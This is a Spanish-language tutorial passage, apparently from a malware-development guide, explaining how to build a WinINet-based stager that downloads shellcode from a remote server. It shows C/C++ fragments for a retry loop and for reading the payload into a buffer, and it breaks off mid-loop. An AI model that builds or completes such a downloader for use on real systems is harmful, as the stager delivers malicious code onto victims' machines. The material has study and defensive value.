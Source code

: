 **InternetOpen** se encarga de crear un handle HTTP definiendo un User-Agent , este nos va a servir para crear una conexión.

{% embed url="https://learn.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetopena" %}

**InternetConnect** en el que le vamos a pasar la sesión creada, junto a la dirección del server y su puerto.&#x20;

{% embed url="https://learn.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetconnecta" %}

Con **HttpOpenRequest** creamos la request http pasandole la conexión creada y el nombre del archivo que vamos a querer descargar el contenido.&#x20;

{% embed url="https://learn.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-httpopenrequesta" %}

Para liberar recursos utilizaremos **InternetCloseHandle**  para cerrar los handles anteriormente creados.

{% embed url="https://learn.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetclosehandle" %}

Como en primaria instancia puede fallar el realizar la conexión se puede intentar varias veces, esta porción de código se encarga de evaluar si no se envió la solicitud http el reintentar, en este caso hasta 3 veces.

```c
WORD counter = 0;
	while (!HttpSendRequest(request, NULL, 0, 0, 0)) {
		//printf("Error sending HTTP request: : (%lu)\n", GetLastError()); // only for debugging

		counter++;
		Sleep(3000);
		if (counter >= 3) {
			exit(0); // HTTP requests eventually failed
		}
	}
```



Con el siguiente código vamos a leer el contenido del shellcode hosteado por el server, y para almacenar el resultado en la variable payload, como no sabemos el tamaño del shellcode le vamos a asignar **BUFSIZE,** con esto le decimos al compilador que decida cual será el tamaño.

El primer condicional sirve para evaluar si **InternetReadFile** pudo leer data, sino termina la ejecución del proceso.

Con el tercer if validamos si el tamaño del payload es pequeño, lo duplicamos.

Una vez se termine de leer la data con **InternetReadFile,** se encargará de romper el bucle while.

```cpp
	DWORD bufSize = BUFSIZ;
	byte* buffer = new byte[bufSize];

	DWORD capacity = bufSize;
	byte* payload = (byte*)malloc(capacity);

	DWORD payloadSize = 0;

	while (true) {
		DWORD bytesRead;

		if (!InternetReadFile(request, buffer, bufSize, &bytesRead)) {
			//printf("Error reading internet file : <%lu>\n", GetLastError()); // only for debugging
			exit(0);
		}
```